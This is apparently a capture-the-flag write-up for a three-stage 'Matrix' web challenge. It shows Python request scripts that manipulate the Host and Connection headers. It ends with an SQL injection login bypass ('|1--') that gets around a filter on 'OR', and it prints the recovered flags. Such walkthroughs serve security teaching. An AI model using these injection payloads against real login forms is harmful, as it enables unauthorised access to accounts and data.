 
 - http://37.187.186.219:5555 -- Our TARGET !

# Matrix 1 :
* Inspecting the source... nothing's interesting there.
* So i saved the picture (whiterabbit.jpg) and i started analysing it , i found this area "morpheus.matrix:5555"
 ![alt text](https://i.imgur.com/EjZ3azD.png "huh")
 
> Maybe something behind this adresse, so i made a little python script to communicate with our target changing "Host" header.

```
import requests
url = "http://37.187.186.219:5555"
head1 = {
    'host': "morpheus.matrix:5555",  ##  The host Header tells our target  which virtual host to use.
    'access-control-request-headers': "application/x-www-form-urlencoded",
    'x-requested-with': "application/json",
    'cache-control': "no-cache",
    }	
r = requests.request("GET", url, headers=head1)
print(r.text)
``` 
```
 # C:\>Python Matrix.py
 ================================= Result ====================================
 <body bgcolor=#001B33><center><pre><font size=4 color=#2CAC0C face=monospace>
 Welcome my name is morpheus
 Here is the blue pill : MCTF3{WeARe4LL_our_Own_Perception}
 you can take this pill and stop here or you can take the red one to see the truth 
 this one is hidden, ask the program for it
 pill color:  369296fbbb4187530420a169398fc793 #<!-- ./matrix.txt !-->
 <img src="./pill.jpeg" height=250>
 </center></pre>
```
> - Cool , we got our first Flag ! __MCTF3{WeARe4LL_our_Own_Perception}__ :D

# Matrix 2 :
- Just checked : http://37.187.186.219:5555/matrix.txt | and i cracked the MD5 hash.... Hmmm what else !?
- I just found this word "keep-alive" ( in both of the hash cracked result and matrix.txt ) 
- __HTTP__ works with request-response : __client__ connects to __server__, performs a request and gets a response.
- Without keep-alive, the connection to an HTTP server is closed after each response. With HTTP __keep-alive__ you keep the underlying TCP connection open until certain criteria are met.
* Hummmm good to know this..., if u remember in __Matrix 1__ (you can take this pill and stop here or you can take the red one to see the truth, this one is hidden, ask the program for it ) 
- So here we have 2 choices ( take the pill (X) and stop here or take the red one , pill (red)
- I just choosed the red pill to know the truth Via " Connection Header "  xd.
- W're going to edit our python script by adding Connection Header with "red" parameter.
> i just renamed it head2 
```
import requests
url = "http://37.187.186.219:5555"
head2 = {
    'host': "morpheus.matrix:5555",
	'Connection': "red",
    'access-control-request-headers': "application/x-www-form-urlencoded",
    'x-requested-with': "application/json",
    'cache-control': "no-cache",
    }
r2 = requests.request("GET", url, headers=head2)
print(r2.text)
```
```
 # C:\>Python Matrix.py
 ================================= Result ====================================
<body bgcolor=#001B33><center><pre><font size=4 color=#2CAC0C face=monospace>
Welcome to zion here is the Nebuchadnezzar 
MCTF3{Th3Truth_Mak3_U@Suffer}
 here you gonna start your training
<img src="./nb.jpeg" height=250>
<form method=post action=''><table>
<tr><td><font color="#125523" size=4>USER</td><td><input type=text name=username></td></tr>
<tr><td><font color="#125523" size=4>PASSWORD</td><td><input type=text name=password></td></tr>
<tr><td></td><td><input type=submit value='LOGIN'></td></tr>
</table></form>
```
> - Cool our 2nd flag ! __MCTF3{Th3Truth_Mak3_U@Suffer}__ :D


# Matrix 3 ( Final Adventure ) :
- Cool, we have now a USER & PASSWORD inputs here :D!
- Lets post some data !
> name=__username__ - name=__password__ and finally button for submission : __submit__.
```
query = {"username":"admin","password":"test","Type":"submit"} ## our query to post data ;)
rr = requests.post(url, headers=head2 , data=query)
print(rr.text)
```

```
 # C:\>Python Matrix.py
 ================================= Result ====================================
<body bgcolor=#001B33><center><pre><font size=4 color=#2CAC0C face=monospace>
Welcome to zion here is the Nebuchadnezzar 
MCTF3{Th3Truth_Mak3_U@Suffer}
 here you gonna start your training
<img src="./nb.jpeg" height=250>
<form method=post action=''><table>
<tr><td><font color="#125523" size=4>USER</td><td><input type=text name=username></td></tr>
<tr><td><font color="#125523" size=4>PASSWORD</td><td><input type=text name=password></td></tr>
<tr><td></td><td><input type=submit value='LOGIN'></td></tr>
<h2><font color=red>Wrong Password !</font></h2>
</table></form>
<!--<?php
SELECT * from ninja where nname='admin' AND npass='098F6BCD4621D373CADE4E832627B4F6';--!>
```
> Hummm __Wrong Password__
> * We have an SQL Query *_* !
- Let's try to bypass it using the OR : __admin' or 1=1;---__
> No way, the "OR" is rejected lol , i also tried OorR , it appears but nothing happens lol :S
> I took 2 Hours, and finally i found it :]
- You need to use __|__ instead of __OR__
- My Payload was __'|1--__ and it means ---> __(select * from ninja where nname='' or 1--) ---> (select * from ninja where nname='' or True--)__
> - we used __--__ for __comments__ to ignore the password part :)
```
query = {"username":"'|1--","password":"test","Type":"submit"}
rr = requests.post(url, headers=head2 , data=query)
print(rr.text)
```
```
<body bgcolor=#001B33><center><pre><font size=4 color=#2CAC0C face=monospace>
Welcome to zion here is the Nebuchadnezzar 
MCTF3{Th3Truth_Mak3_U@Suffer}
 here you gonna start your training
<img src="./nb.jpeg" height=250>
<form method=post action=''><table>
<tr><td><font color="#125523" size=4>USER</td><td><input type=text name=username></td></tr>
<tr><td><font color="#125523" size=4>PASSWORD</td><td><input type=text name=password></td></tr>
<tr><td></td><td><input type=submit value='LOGIN'></td></tr>
</table></form>
<!--<?php
SELECT * from ninja where nname=''|1--' AND npass='cfab1ba8c67c7c838db98d666f02a132';--!>
Welcome MCTF{Sqli_IzALwaysTHEk3y$}
</center></pre>
```
- Nice one :D final flag : __Welcome MCTF{Sqli_IzALwaysTHEk3y$}__


### it was a great adventure guys !  Thanks to NEO :D ###

> Greetz to all my dudes : Th3 Jackers , Ghosty , Aymen , Omar , Sudo_Root .... & All <3 

